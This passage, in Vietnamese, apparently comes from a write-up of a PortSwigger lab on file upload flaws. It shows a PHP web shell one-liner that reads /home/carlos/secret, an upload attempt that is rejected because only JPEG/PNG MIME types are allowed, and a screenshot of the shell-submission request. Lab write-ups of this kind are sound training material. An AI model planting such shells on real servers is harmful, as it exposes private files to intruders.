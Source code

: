 Tạo file `my_shell.php` có nội dung như sau: 

    <?php echo file_get_contents('/home/carlos/secret'); ?>

Thử upload file này: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side-vulnerabilities/images/image86.png?raw=true)

Thông báo lỗi cho thấy chỉ hỗ trợ MIME type là `image/jpeg` hoặc `image/png`.

Request submit shell sẽ trông như sau:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side-vulnerabilities/images/image88.png?raw=true)
